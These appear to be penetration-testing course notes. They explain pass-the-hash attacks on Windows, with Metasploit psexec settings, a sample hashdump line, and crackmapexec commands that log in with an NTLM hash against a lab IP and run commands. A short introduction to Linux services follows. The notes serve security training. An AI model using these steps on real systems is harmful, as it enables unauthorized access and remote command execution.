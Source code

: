 ### Pass-The-Hash Attacks ###

What can we do with **NTLM** hashes apart from cracking them?
+ can perform a <mark style="background: #BBFABBA6;">pass the hash</mark>

#### Pass-the-Hash ####
+ <mark style="background: #BBFABBA6;">Pass-the-hash</mark> is an exploitation technique that involves <mark style="background: #FFF3A3A6;">capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately </mark>
+ Can use multiple tools to facilitate a Pass-The-Hash attack:
  + <mark style="background: #FF5582A6;">Metasploit</mark> PsExec module 
  + <mark style="background: #D2B3FFA6;">Crackmapexec</mark> 
+ This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation 
  + This will allow persistence even if there is a patch 

For the <mark style="background: #FF5582A6;">Metasploit</mark> PsExec module , will also need the **lm** hash
+ can do so with `hashdump`
	+ Example output: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::`
	+ This can be parsed as: `USERNAME:SID:LM_HASH:NTLM_HASH:::`
+ Will now `use exploit/windows/smb/psexec`
  + `set LPORT 4422`
  + `set RHOSTS 10.3.31.228`
  + `set SMBUSER Administrator`
  + `set SMBPASS PASSWORD_HASH` Notice that a hash is possible, but can also use clear text password
	+ Will need to pass both the LM and NTLM Hash
		+ Example: `aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`
+ Can now `run` and get a <mark style="background: #FF5582A6;">meterpreter</mark> session 

Can also <mark style="background: #ADCCFFA6;">use pass the hash</mark> with <mark style="background: #D2B3FFA6;">Crackmapexec</mark> 
+ `crackmapexec smb 10.3.31.228 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"`
	+ not that the `-H` is the NTLM hash 
	+ This will let you know if it is Pwn3d, can now use the `-x` flag to run commands 
		+ Example: `crackmapexec smb 10.3.31.228 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"`

# Linux #

## Linux Vulnerabilities ##

### Frequently Exploited Linux Services ###

+ <mark style="background: #BBFABBA6;">Linux</mark> is a free and open source OS what is comprised of the Linux kernel, which was developed by Linus Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman 
+ This combination of open source software is what makes up the Linux OS as a whole, commonly referred to as GNU/Linux
+ Linux has various use cases, however, it is <mark style="background: #FFF3A3A6;">typically deployed as a server OS</mark>. That means there are specific services and protocols that will typically be found running on a Linux server
+ These services provide an attacker with an access vector that they can utilized to gain access to the target host
+ Having a good understanding of what these services are, how they work, and their potential vulnerabilities is a vitally important skill to have as a penetration tester 
